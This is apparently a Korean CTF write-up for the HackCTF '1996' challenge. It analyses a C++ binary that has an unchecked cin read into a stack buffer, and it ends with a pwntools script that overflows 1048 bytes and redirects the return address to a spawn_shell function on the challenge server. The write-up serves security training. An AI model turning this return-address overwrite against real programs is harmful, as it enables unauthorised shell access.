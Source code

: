 **HackCTF - 1996**

| layout | title                         | auther   | categories | tags           |
| ------ | ----------------------------- | -------- | ---------- | -------------- |
| post   | HackCTF - 1996 | Y3oj4eng | writeup    | writeupwargame |

# Analysis
---
### `file & checksec`

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file 1996 
1996: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=0b17d4a3919a3b046b03d35e2fdba47cd94d6aef, not stripped

mac at ubuntu in ~/Desktop/hackCTF
$ checksec 1996 
[*] '/home/mac/Desktop/hackCTF/1996'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`ELF 64 bit` 프로그램이며 `NX` 보호기법이 적용되었다.
따라서, 스택과 힙 그리고 데이터 영역에 대한 실행권한이 제한된다.

프로그램 분석에 앞서 한번 실행시켜보도록 한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./1996 
Which environment variable do you want to read? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=% 
```

프로그램 실행시 `Which environment variable do you want to read?` 라는 문자열을 출력한 뒤, 사용자로부터 값을 입력받는다.

본격적으로 분석을 진행한다.

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v4; // rax
  __int64 v5; // rdx
  __int64 v6; // rbx
  char *v7; // rax
  __int64 v8; // rdx
  __int64 v9; // rax
  char name; // [rsp+0h] [rbp-410h]

  std::operator<<<std::char_traits<char>>(&_bss_start, "Which environment variable do you want to read? ", envp);
  std::operator>><char,std::char_traits<char>>(&std::cin, &name);
  v4 = std::operator<<<std::char_traits<char>>(&_bss_start, &name, v3);
  v6 = std::operator<<<std::char_traits<char>>(v4, "=", v5);
  v7 = getenv(&name);
  v9 = std::operator<<<std::char_traits<char>>(v6, v7, v8);
  std::ostream::operator<<(v9, &std::endl<char,std::char_traits<char>>);
  return 0;
}
```
윽... `cpp` 언어로 제작되었다.

처음 보는 클래스가 사용되어 이에 대해 먼저 알아보았다.
> 
> `traits` 클래스는 컴파일 도중에 어떤 주어진 타입의 정보를 얻을 수 있게 하는 객체를 지칭하는 개념이다.

뭐 이렇게 봐서는 잘 모르겠다.

일단은, `cin`을 통해 `name`에 값을 입력받으며 길이값 검증을 진행하지 않아 `BOF` 취약점이 존재한다.

따라서 `main` 함수의 `return address`에 접근이 가능하다.

또한 `NX` 보호기법이 적용되어 쉘코드 인젝션이 불가능하여 방법을 찾던중 수상한 이름의 함수를 발견하였다.

```c
int spawn_shell(void)
{
  char *argv; // [rsp+0h] [rbp-10h]
  __int64 v2; // [rsp+8h] [rbp-8h]

  argv = "/bin/bash";
  v2 = 0LL;
  return execve("/bin/bash", &argv, 0LL);
}
```

```bash
b-peda$ pd spawn_shell
Dump of assembler code for function _Z11spawn_shellv:
   0x0000000000400897 <+0>:	push   rbp
   0x0000000000400898 <+1>:	mov    rbp,rsp
   0x000000000040089b <+4>:	sub    rsp,0x10
   0x000000000040089f <+8>:	lea    rax,[rip+0x1b3]        # 0x400a59
   0x00000000004008a6 <+15>:	mov    QWORD PTR [rbp-0x10],rax
   0x00000000004008aa <+19>:	mov    QWORD PTR [rbp-0x8],0x0
   0x00000000004008b2 <+27>:	lea    rax,[rbp-0x10]
   0x00000000004008b6 <+31>:	mov    edx,0x0
   0x00000000004008bb <+36>:	mov    rsi,rax
   0x00000000004008be <+39>:	lea    rdi,[rip+0x194]        # 0x400a59
   0x00000000004008c5 <+46>:	call   0x4007a0 <execve@plt>
   0x00000000004008ca <+51>:	nop
   0x00000000004008cb <+52>:	leave  
   0x00000000004008cc <+53>:	ret    
End of assembler dump.
gdb-peda$ 
```

함수의 이름은 `spawn_shell` 이였으며 함수가 종료되며 쉘을 열어준다.

`spawn_shell addr : 0x0000000000400897`

따라서 메인 함수가 끝나고 복귀하는 지점인 `return address` 부분을 해당 함수의 주소로 `overwrite` 하면 문제가 쉽게 풀릴것으로 예상된다.

`payload` 구성은 다음과 같다.

`payload : dummy(0x410bytes) + SFP(8bytes) + &spawn_shell`



# Exploit
---

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3013)
#p = process('./1996')

spawn_shell = 0x0000000000400897
payload = 'A'* 1048
payload += p64(spawn_shell)

p.sendlineafter('? ', payload)

p.interactive()

```
